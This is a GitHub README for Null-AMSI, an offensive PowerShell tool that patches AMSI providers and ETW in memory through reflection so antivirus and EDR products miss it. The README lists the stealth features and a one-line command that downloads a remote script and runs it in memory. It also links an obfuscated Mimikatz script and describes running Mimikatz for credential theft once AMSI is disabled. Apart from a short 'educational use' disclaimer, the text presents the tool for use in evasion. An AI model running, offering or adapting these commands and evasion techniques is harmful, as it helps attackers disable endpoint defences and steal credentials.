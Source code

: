 [![Telegram](https://badgen.net/badge/icon/telegram?icon=telegram&label)](https://t.me/MalwareBit)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://github.com/BlackShell256/Null-AMSI/blob/main/LICENSE)
[![LinkedIn](https://img.shields.io/static/v1.svg?label=LinkedIn&message=@anibal&logo=linkedin&style=flat&color=blue)](https://www.linkedin.com/in/anibal-5a3870278/)

# Null-AMSI

## Description
The Null-AMS script is a tool that takes advantage of native PowerShell features and .NET functions using reflection, in order to modify the memory of amsi.dll, to disable its malware scanning and be free to execute scripts and malicious code. This tool is for educational use to understand the role of AMSI in protecting against malware and the implications of bypassing these defense mechanisms.

### AMSI
AMSI (Antimalware Scan Interface) is an application programming interface (API) developed by Microsoft that allows Windows applications and services to interact with third-party antivirus and antimalware software to detect and block malicious activity. AMSI was introduced in Windows 10 and is designed to improve security by allowing code, such as scripts, macros, and other potentially dangerous elements, to be scanned for malicious patterns before executing.

![image](https://github.com/user-attachments/assets/fa9ae24f-cbaa-4340-8010-536ad5949d0f)

### Reflection
Reflection in PowerShell refers to the ability to inspect and manipulate data types (such as classes, methods, properties and fields) at runtime, without needing to know their definition at compile time. This functionality is based on the .NET reflection system, which allows scripts and programs to access type and object metadata, make dynamic method calls, and modify properties or fields through reflection.

Amsi patches usually use Add-Type to add .NET types inside PowerShell, this method for AV or EDR is highly detected.
![image](https://github.com/user-attachments/assets/c03ec594-8b45-4af5-93ec-7f699d401619)

To avoid this, Null-AMSI uses reflection and use native functions, with this we can get the address of GetModuleHandle and GetProcAddress, we can use these functions to patch AMSI without alerting AV/EDR.

### Features
- *Native Memory Manipulation*: Null-AMSI uses functions from the “System.Runtime.InteropServices.Marshal” assembly to manipulate memory avoiding the use of ReadProcessMemory or WriteProcessMemory which are highly scrutinized by security measures.
  
- *All in memory*: The tool works in memory, when using "Add-Type" this function compiles the code into a C# dll, at that time your patch can be highly detected by an AV/EDR, this is avoided with reflection and kept in memory with stealth.
  
- *Effective patch bypass*: In contrast to traditional AMSI evasion techniques, which typically patch AmsiScanBuffer (highly flaged and documented) Null-AMSI patches AMSI providers, which guarantees a higher success rate against AV/EDR engines.

- *Multi-Architecture*: Works for both 32-bit and 64-bit PowerShell, to run in any environment, for this it checks the length in bytes of the IntPtr data type.

- *Evasion in memory modification*: By modifying the memory address permissions of AMSI providers and **EtwEventWrite** using the **VirtualProtect** function, **PAGE_EXECUTE_WRITECOPY** protection is employed, an uncommon configuration that favors evasion of security mechanisms. This protection contributes to the patch's effectiveness by allowing memory modifications to be made in a way that is more difficult for security tools to detect.

### ETW Patching
ETW (Event Tracing for Windows) is Microsoft's real-time event tracing and collection infrastructure for logging, monitoring and analyzing operating system and application events in Windows at the Kernel level. In the context of computer security and threat detection, ETW is a very valuable tool for Antivirus (AV) and Endpoint Detection and Response (EDR) solutions, as it provides detailed information about system activities that may be indicative of malicious behavior. Null-AMSI patches EtwEventWrite (optionally) by returning the execution flow to the next instruction.

## Use

To Use Null-AMSI, run the following commands:

With this command we will execute Null-AMSI in memory 
```
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/BlackShell256/Null-AMSI/refs/heads/main/Invoke-NullAMSI.ps1)
```
For AMSI patching only
```
Invoke-NullAMSI
```
For AMSI and ETW patching
```
Invoke-NullAMSI -etw
```
To get verbose and more information about the tool
```
Invoke-NullAMSI -v
```

### Usage example
1. Run the Null-AMSI tool, I added verbose flags and ETW patch (optional).
![image](https://github.com/user-attachments/assets/6f5ee3f1-0c93-4d23-9388-57135abd6506)

2. Now we can run Mimikatz with amsi disabled, I used an obfuscated version of Mimikatz ([Mimikatz-Obfuscated](https://raw.githubusercontent.com/BlackShell256/Null-AMSI/refs/heads/main/Invoke-Mimikatz.ps1)) with zlib and base64 to avoid the http detection of my Eset Premium AV. 
![image](https://github.com/user-attachments/assets/caed0aae-ab4e-4d24-8761-52a03fd1a31f)

### Poc Evasion
[Full Video](https://www.linkedin.com/posts/anibal-5a3870278_evasion-bypass-amsi-activity-7264104326703329280-S8Y9?utm_source=share&utm_medium=member_desktop)
![image](https://github.com/user-attachments/assets/6c832166-92b5-446a-893c-273249cd68a8)

## Credit

* Some of the Reflection code I learned from Matt Graeber. [X/Twitter](https://x.com/mattifestation)

* Patch by Maor Korkos [X/Twitter](https://x.com/maorkor)

